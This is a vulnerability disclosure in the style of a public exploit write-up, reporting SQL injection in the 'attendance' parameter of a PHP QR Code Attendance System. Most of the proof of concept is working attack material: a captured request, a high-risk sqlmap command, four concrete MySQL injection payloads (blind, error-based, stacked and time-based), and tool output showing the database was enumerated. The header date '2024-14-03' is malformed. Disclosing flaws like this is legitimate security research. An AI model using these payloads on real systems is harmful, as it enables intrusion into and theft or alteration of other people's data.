 # QR Code Attendance System - SQL Injection -2
+ **Exploit Title:** QR Code Attendance System - SQL Injection - 2 
+ **Date:** 2024-14-03
+ **Exploit Author:** Burak Sevben
+ **Vendor Homepage:** https://www.sourcecodester.com/php/17242/qr-code-attendance-system-using-php-and-mysql-source-code.html
+ **Software Link:** https://www.sourcecodester.com/download-code?nid=17242&title=QR+Code+Attendance+System+Using+PHP+and+MySQL+with+Source+Code
+ **Version:** 1.0
+ **Tested on:** Kali Linux + PHP 8.2.12, Apache 2.4.58
+ **CVE:** Reported, waiting for CVE number.

## Description:
QR Code Attendance System  1.0 allows SQL Injection via the 'attendance' parameter in "http://localhost/qr-code-attendance-system/endpoint/delete-attendance.php?attendance=2". Exploiting this issue could allow an attacker to compromise the application, access or modify data, or exploit the latest vulnerabilities in the underlying database.

## Proof of Concept:
+ Go to this address: "http://localhost/qr-code-attendance-system/index.php
+ Select any student and press the delete-attendance button
+ Capture the request via Burp Suite and send it to the Repeater.
+ Copy the request and paste it into an "r.txt" file.
+ Captured Burp request:
```
GET /qr-code-attendance-system/endpoint/delete-attendance.php?attendance=2 HTTP/1.1
Host: localhost
sec-ch-ua: "Not A(Brand";v="24", "Chromium";v="110"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Linux"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/110.0.5481.78 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,/;q=0.8,application/signed-exchange;v=b3;q=0.7
```

+ Use sqlmap to exploit. In sqlmap, use 'attendance' parameter to dump the database.
```
sqlmap -r r.txt -p attendance --risk 3 --level 5 --dbms mysql --proxy="http://127.0.0.1:8080" --batch --current-db
```
```
---
Parameter: attendance (GET)
    Type: boolean-based blind
    Title: MySQL RLIKE boolean-based blind - WHERE, HAVING, ORDER BY or GROUP BY clause
    Payload: attendance=2' RLIKE (SELECT (CASE WHEN (1274=1274) THEN 2 ELSE 0x28 END))-- NtYS

    Type: error-based
    Title: MySQL >= 5.1 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (EXTRACTVALUE)
    Payload: attendance=2' AND EXTRACTVALUE(1166,CONCAT(0x5c,0x7170786a71,(SELECT (ELT(1166=1166,1))),0x7170787871))-- czHx

    Type: stacked queries
    Title: MySQL >= 5.0.12 stacked queries (comment)
    Payload: attendance=2';SELECT SLEEP(5)#

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: attendance=2' AND (SELECT 7330 FROM (SELECT(SLEEP(5)))HjJP)-- Dlra
---
[19:19:26] [INFO] the back-end DBMS is MySQL
web application technology: PHP 8.2.12, Apache 2.4.58
back-end DBMS: MySQL >= 5.1 (MariaDB fork)
[19:19:26] [INFO] fetching current database
[19:19:26] [INFO] retrieved: 'qr_attendance_db'
current database: 'qr_attendance_db'
```
+ current database: `qr_attendance_db`

![Ekran görüntüsü 2024-03-14 022556](https://github.com/BurakSevben/CVEs/assets/117217689/c0c51301-073e-4285-8a63-9b17ab6ad066)
